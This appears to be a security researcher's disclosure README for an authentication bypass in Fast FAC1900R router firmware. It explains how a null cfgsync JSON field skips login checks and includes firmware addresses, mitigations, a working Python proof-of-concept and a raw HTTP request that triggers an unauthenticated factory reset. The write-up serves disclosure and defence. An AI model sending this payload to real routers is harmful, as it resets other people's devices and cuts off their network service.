






# Fast FAC1900R Unauthorized System Reset Vulnerability

## Overview

This repository documents an unauthorized access vulnerability found in the Fast FAC1900R router firmware. The issue exists in the VxWorks-based Web management service and can be triggered through the `httpParser -> httpPostHandle -> httpProcDataSrv` request handling path.

The vulnerability is an authentication bypass. An unauthenticated request can bypass `httpDoAuthorize` and continue to trigger the sensitive `system.reset` operation in the same JSON request. Successful exploitation can reset the router configuration and interrupt network services, directly affecting integrity and availability.

| Firmware Name | Firmware Version | Download Link |
| --- | --- | --- |
| FAC1900R | V1.0 upgrade software 20190827_2.0.2 | https://service.fastcom.com.cn/upload/download/202007/FAC1900R%E5%8D%83%E5%85%86%E7%89%88%20V1.0%E5%8D%87%E7%BA%A7%E8%BD%AF%E4%BB%B620190827_2.0.2.zip |

Product page:

```text
https://www.fastcom.com.cn/product/1900r.html
```


## Vulnerability Details

### 1. Vulnerability Trigger Location

There is an unauthorized access vulnerability in the firmware's `httpParser` processing logic. The vulnerability is triggered through the following path:

```text
httpParser
  -> httpPostHandle
    -> httpProcDataSrv
      -> bypass httpDoAuthorize
      -> process system.reset
      -> systemReset
```

In the `httpProcDataSrv` function, the program incorrectly uses user-controlled JSON fields as conditions for bypassing authentication. A specially crafted POST request can therefore skip `httpDoAuthorize` and enter subsequent sensitive processing logic.



### 2. Root Cause

The root cause is that the Web management service incorrectly treats several user-supplied `cfgsync` fields as authentication-exempt conditions. These fields are fully controlled by the request body, for example:

```json
{
  "cfgsync": {
    "get_config_info": null
  }
}
```

Related fields include:

- `cfgsync.get_config_info`
- `cfgsync.start_get_config_info`
- `cfgsync.stop_wan_dhcp_opera`

When such a field exists and its value is `null`, the program can skip the normal `httpDoAuthorize` authentication process. As a result, unauthenticated requests can proceed to sensitive handlers.



### 3. Firmware Symbols

The following relevant symbols were identified in the firmware symbol table:

| Function | Address |
| --- | --- |
| `httpProcDataSrv` | `0x40493BF8` |
| `httpPostHandle` | `0x40494E4C` |
| `httpParser` | `0x4049610C` |
| `httpDoAuthorize` | `0x404A9730` |
| `systemReset` | `0x404AF654` |

## Security Impact Proof

### 1. Unauthenticated Request Condition

The verification request is a normal HTTP POST request. It does not contain a valid login session, valid Cookie, Authorization header, or a `stok` value obtained from a normal login flow.

The request body contains both the bypass trigger and the sensitive system operation:

```json
{
  "system": {
    "reset": null
  },
  "method": "do",
  "cfgsync": {
    "get_config_info": null
  }
}
```

In this request:

- `cfgsync.get_config_info: null` triggers the authentication bypass branch.
- `system.reset: null` is a sensitive management operation.
- `method: do` indicates that the requested operation should be executed.

The full request sample is stored in `FAST_FAC1900R/payload.txt`.

### 2. Authentication Function

The `httpDoAuthorize` function performs normal login session verification and authorization checks. When the cfgsync bypass is triggered, this function is skipped entirely.



### 3. Sensitive Operation

The `systemReset` function performs the system reset operation. Once the authentication check is bypassed, this sensitive function can be called directly by an unauthenticated request.



## Proof of Concept

The following script sends the prepared request from `payload.txt` to a test device or authorized emulation environment.

```python
import socket

ip = "192.168.0.1"   # target IP in an authorized test environment
file_path = "./payload.txt"

with open(file_path, "rb") as f:
    payload = f.read()

print(f"[+] Loaded {len(payload)} bytes from {file_path}")

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((ip, 80))

s.sendall(payload)

response = s.recv(4096)
print(response.decode(errors="ignore"))

s.close()
```

The payload:

```http
POST /stok=<invalid-or-random-value>/ds HTTP/1.1
Host: tplogin.cn
Content-Type: application/json
Content-Length: 75

{"system":{"reset":null},"method":"do", "cfgsync":{"get_config_info":null}}
```

## Vulnerability Verification

Use `binwalk -Me` to extract the `10400` file from the original firmware. The firmware operating system is VxWorks, and this file is the main binary. The symbol table was also used during analysis.

The service was started and verified with a self-developed VxWorks emulation tool. The verification method uses a crash-detection hook: `httpDoAuthorize` is hooked with `Jmp2address → 0x47474746` (an invalid address outside the legal execution range). If `httpDoAuthorize` is called, the emulator crashes. When the request carries the `cfgsync` bypass field, `httpDoAuthorize` is skipped and the program exits cleanly — directly proving the authentication bypass effect.





## Mitigation

Recommended fixes:

- All sensitive configuration read, write, reset, reboot, and system management interfaces must require authentication and authorization checks.
- User-controlled JSON fields must not be used as authentication-exempt conditions.
- If `cfgsync` is required for internal synchronization, it should be protected by source validation, session validation, signature verification, or device-to-device authentication.
- `cfgsync` operations should be isolated from sensitive operations such as `system.reset` so that a single request cannot combine an authentication-exempt trigger with a high-risk action.
- High-risk operations such as `system.reset` and reboot should perform their own permission checks before execution.

## Discoverer

m202472188@hust.edu.cn HUST IOTS&P lab
